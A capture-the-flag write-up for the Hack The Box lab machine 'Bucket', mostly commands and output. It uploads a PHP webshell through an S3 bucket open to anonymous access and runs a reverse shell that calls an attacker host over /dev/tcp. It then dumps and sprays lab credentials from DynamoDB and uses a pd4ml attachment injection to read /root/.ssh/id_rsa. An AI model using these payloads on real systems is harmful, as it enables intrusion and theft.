





# Bucket
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.212 --min-rate 1000 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 16:05 GMT
Warning: 10.10.10.212 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.212 (10.10.10.212)
Host is up (0.18s latency).
Not shown: 60507 closed tcp ports (conn-refused), 5026 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 157.48 seconds

```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.212 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 16:25 GMT
Nmap scan report for 10.10.10.212 (10.10.10.212)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://bucket.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.32 seconds

```

- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://bucket.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error -t 50                        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bucket.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              js,php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 5344]

```

- `vhosts`
```
└─$ wfuzz -u http://bucket.htb/ -H 'Host: FUZZ.bucket.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 26
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bucket.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000247:   404        0 L      2 W        21 Ch       "s3"
000009532:   400        12 L     53 W       422 Ch      "#www"
000010581:   400        12 L     53 W       422 Ch      "#mail"

Total time: 0
Processed Requests: 19966
Filtered Requests: 19963
Requests/sec.: 0

```

- `gobuster`
```
└─$ gobuster dir -u http://s3.bucket.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://s3.bucket.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/health               (Status: 200) [Size: 54]
/shell                (Status: 200) [Size: 0]
/shell.js             (Status: 500) [Size: 158]
/shell.html           (Status: 500) [Size: 158]
/shell.txt            (Status: 500) [Size: 158]
/shell.php            (Status: 500) [Size: 158]
```

- `s3.bucket.htb`
```
HTTP/1.1 404 
Date: Wed, 08 Nov 2023 13:54:42 GMT
Server: hypercorn-h11
content-type: text/html; charset=utf-8
content-length: 21
access-control-allow-origin: *
access-control-allow-methods: HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH
access-control-allow-headers: authorization,content-type,content-md5,cache-control,x-amz-content-sha256,x-amz-date,x-amz-security-token,x-amz-user-agent,x-amz-target,x-amz-acl,x-amz-version-id,x-localstack-target,x-amz-tagging
access-control-expose-headers: x-amz-version-id
Connection: close

{"status": "running"}
```


- Looks like `s3` hosts images and `index.html` which points to `bucket.htb`




## Foothold
- Based on header information we can confirm it's `AWS`
  - [aws](https://www.geeksforgeeks.org/introduction-to-amazon-web-services/)
  - [s3](https://www.geeksforgeeks.org/introduction-to-aws-simple-storage-service-aws-s3/)
  - [bucket](https://www.geeksforgeeks.org/introduction-to-aws-simple-storage-service-aws-s3/) - `are refered to the containers where you can store your file and retrieve when ever you required. `
    - `http://s3.<HOST>/<BUCKET>/<FILE>`
  - We have to install `awscli` for easier interaction
    - `apt install awscli`
- Currently the idea is to perform a webshell upload
  - Thus we have to check if we can upload to `bucket`
  - We have to check if it's misconfigured (thus allows anonymous access)
- After installation we have to configure credentials for interaction
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls

Unable to locate credentials. You can configure credentials by running "aws configure".
```
```
└─$ aws configure
AWS Access Key ID [None]: pentest
AWS Secret Access Key [None]: pentest
Default region name [None]: pentest
Default output format [None]: 
```

- Well it looks like it allows anonymous access
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls
2023-11-08 14:11:03 adserver

```
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver
                           PRE images/
2023-11-08 14:13:04       5344 index.html
```
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver/images/
2023-11-08 14:15:04      37840 bug.jpg
2023-11-08 14:15:04      51485 cloud.png
2023-11-08 14:15:04      16486 malware.png
```

- We can check `cp` command and try to upload `php` webshell
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb cp cmd.php s3://adserver/cmd.php
upload: ./shell.php to s3://adserver/shell.php 
```
```
└─$ curl http://bucket.htb/cmd.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at bucket.htb Port 80</address>
</body></html>
```

- Maybe it doesn't allow `php` extensions
  - We could try to upload `txt` file but save it as `php`
  - Note: I tried `shell.<EXTENSION>`, didn't work
    - `shell` probably blacklisted or it got erased (since there's a cleanup script running)
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb cp cmd.txt s3://adserver/cmd.php 
upload: ./cmd.txt to s3://adserver/cmd.php 
```
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver/               
                           PRE images/
2023-11-08 14:20:01         35 cmd.php
2023-11-08 14:19:04       5344 index.html
```
```
└─$ curl http://bucket.htb/cmd.php?cmd=id                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Let's get reverse shell
```
└─$ curl http://bucket.htb/cmd.php --data-urlencode 'cmd=bash -c "/bin/bash -i >& /dev/tcp/10.10.16.4/6666 0>&1"'                        
```



## User
- `roy` has a project folder in home directory
```
www-data@bucket:/home/roy/project$ ls -lha
total 44K
drwxr-xr-x  3 roy roy 4.0K Sep 24  2020 .
drwxr-xr-x  3 roy roy 4.0K Sep 24  2020 ..
-rw-rw-r--  1 roy roy   63 Sep 24  2020 composer.json
-rw-rw-r--  1 roy roy  21K Sep 24  2020 composer.lock
-rw-r--r--  1 roy roy  367 Sep 24  2020 db.php
drwxrwxr-x 10 roy roy 4.0K Sep 24  2020 vendor

```

- We have `db.php` file
  - It uses [DynamoDB](https://aws.amazon.com/dynamodb/)
```
www-data@bucket:/home/roy/project$ cat db.php 
<?php
require 'vendor/autoload.php';
date_default_timezone_set('America/New_York');
use Aws\DynamoDb\DynamoDbClient;
use Aws\DynamoDb\Exception\DynamoDbException;

$client = new Aws\Sdk([
    'profile' => 'default',
    'region'  => 'us-east-1',
    'version' => 'latest',
    'endpoint' => 'http://localhost:4566'
]);

$dynamodb = $client->createDynamoDb();

//todo

```

- Let's try to connect to it via `aws`
  - We can't do it from the box

```
www-data@bucket:/home/roy/project$ aws --endpoint-url http://127.0.0.1:4566 dynamodb list-tables
You must specify a region. You can also configure your region by running "aws configure".

```
```
www-data@bucket:/home/roy/project$ aws configure 
AWS Access Key ID [None]: pentest
AWS Secret Access Key [None]: pentest
Default region name [None]: pentest
Default output format [None]: 

[Errno 13] Permission denied: '/var/www/.aws'
```

- But we can from the attack box
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "users"
    ]
}
```
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[].password.S'
Management@#1@#
Welcome123!
n2vM-<_K_Q:.Aa2
```

- Find valid password
```
└─$ crackmapexec ssh 10.10.10.212 -u roy -p password.list
SSH         10.10.10.212    22     10.10.10.212     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4
SSH         10.10.10.212    22     10.10.10.212     [-] roy:Management@#1@# Authentication failed.
SSH         10.10.10.212    22     10.10.10.212     [-] roy:Welcome123! Authentication failed.
SSH         10.10.10.212    22     10.10.10.212     [+] roy:n2vM-<_K_Q:.Aa2 

```

- We can `ssh` as `roy`
```
└─$ sshpass -p 'n2vM-<_K_Q:.Aa2' ssh roy@10.10.10.212
Warning: Permanently added '10.10.10.212' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-48-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 08 Nov 2023 02:51:55 PM UTC

  System load:                      0.04
  Usage of /:                       33.8% of 17.59GB
  Memory usage:                     21%
  Swap usage:                       0%
  Processes:                        244
  Users logged in:                  0
  IPv4 address for br-bee97070fb20: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.212
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:f9ea


229 updates can be installed immediately.
103 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Sep 23 03:33:53 2020 from 10.10.14.2
roy@bucket:~$ 

```
## Root
- `/etc/apache2/sites-enabled/000-default.conf` shows another site on port `8000`
  - It's ran as `root`
```
roy@bucket:/var/www/bucket-app$ cat /etc/apache2/sites-enabled/000-default.conf 
<VirtualHost 127.0.0.1:8000>
        <IfModule mpm_itk_module>
                AssignUserId root root
        </IfModule>
        DocumentRoot /var/www/bucket-app
</VirtualHost>

<VirtualHost *:80>
        DocumentRoot /var/www/html
        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^bucket.htb$
        RewriteRule /.* http://bucket.htb/ [R]
</VirtualHost>
<SNIP>
```
```
roy@bucket:/var/www/bucket-app$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:46777         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -       
```

- Let's check `bucket-app`
```
roy@bucket:/var/www/bucket-app$ ls -lha
total 856K
drwxr-x---+  4 root root 4.0K Feb 10  2021 .
drwxr-xr-x   4 root root 4.0K Feb 10  2021 ..
-rw-r-x---+  1 root root   63 Sep 23  2020 composer.json
-rw-r-x---+  1 root root  21K Sep 23  2020 composer.lock
drwxr-x---+  2 root root 4.0K Feb 10  2021 files
-rwxr-x---+  1 root root  17K Sep 23  2020 index.php
-rwxr-x---+  1 root root 790K Jun 10  2020 pd4ml_demo.jar
drwxr-x---+ 10 root root 4.0K Feb 10  2021 vendor

```

- I'll also reconnect to `ssh` with `-L 8000:localhost:8000`



- `index.php`
  - On `POST` parameter `get_alerts`, it checks `alerts` table for `Ransomware`
  - Then it will create a file win random filename in `files` and write the `data` column
  - Then it converts `html` to `pdf` using `pd4ml`
```
roy@bucket:/var/www/bucket-app$ cat index.php 
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        file_put_contents('files/'.$name,$item["data"]);
                }
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
}
else
{
?>
<SNIP>
```

- We saw that `DynamoDB` doesn't have `alerts` table
  - So we should create it
  - Follow the [post](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/getting-started-step-1.html)
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 
{
    "TableDescription": {
        "AttributeDefinitions": [
            {
                "AttributeName": "title",
                "AttributeType": "S"
            },
            {
                "AttributeName": "data",
                "AttributeType": "S"
            }
        ],
        "TableName": "alerts",
        "KeySchema": [
            {
                "AttributeName": "title",
                "KeyType": "HASH"
            },
            {
                "AttributeName": "data",
                "KeyType": "RANGE"
            }
        ],
        "TableStatus": "ACTIVE",
        "CreationDateTime": "2023-11-08T15:15:17.848000+00:00",
        "ProvisionedThroughput": {
            "LastIncreaseDateTime": "1970-01-01T00:00:00+00:00",
            "LastDecreaseDateTime": "1970-01-01T00:00:00+00:00",
            "NumberOfDecreasesToday": 0,
            "ReadCapacityUnits": 10,
            "WriteCapacityUnits": 5
        },
        "TableSizeBytes": 0,
        "ItemCount": 0,
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/alerts"
    }
}

```
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "alerts",
        "users"
    ]
}
```

- Let's create an item
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"TEST"}}'          
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}

```

- Trigget the app
```
└─$ curl http://127.0.0.1:8000/index.php --data 'action=get_alerts'
```
```
roy@bucket:/var/www/bucket-app/files$ ls
348.html  result.pdf
```

- So 
  - [Documentation](https://pd4ml.tech/support-topics/usage-examples/)
  - We can [attach files](https://pd4ml.tech/support-topics/usage-examples/#add-attachment)
  - Paylaod: `<html><pd4ml:attachment src=\"/etc/passwd\" description=\"attachment sample\" icon=\"Paperclip\"/></html>`



- Let's test it
  - We might have to create table again, since it gets deleted
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src=\"/etc/passwd\" description=\"attachment sample\" icon=\"Paperclip\"/></html>"}}'
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
```
```
└─$ curl http://127.0.0.1:8000/index.php --data 'action=get_alerts'
```
```
└─$ sshpass -p 'n2vM-<_K_Q:.Aa2' scp roy@10.10.10.212:/var/www/bucket-app/files/result.pdf .
```



- Okay, it works
  - I assume, there is a `id_rsa` in `root`'s directory and I'll try to grab it
  - We can also create a script
    - [0xdf](https://0xdf.gitlab.io/2021/04/24/htb-bucket.html#shell-as-www-data) shows that
  - I'll perform same steps as above but with different payload to grab a key
    - `<html><pd4ml:attachment src=\"/root/.ssh/id_rsa\" description=\"attachment sample\" icon=\"Paperclip\"/></html>`


- `ssh` as `root`
```
└─$ ssh root@10.10.10.212 -i id_rsa                                                         
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-48-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 08 Nov 2023 03:42:33 PM UTC

  System load:                      0.11
  Usage of /:                       33.9% of 17.59GB
  Memory usage:                     22%
  Swap usage:                       0%
  Processes:                        245
  Users logged in:                  1
  IPv4 address for br-bee97070fb20: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.212
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:f9ea


229 updates can be installed immediately.
103 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Feb  9 14:39:03 2021
root@bucket:~# 
```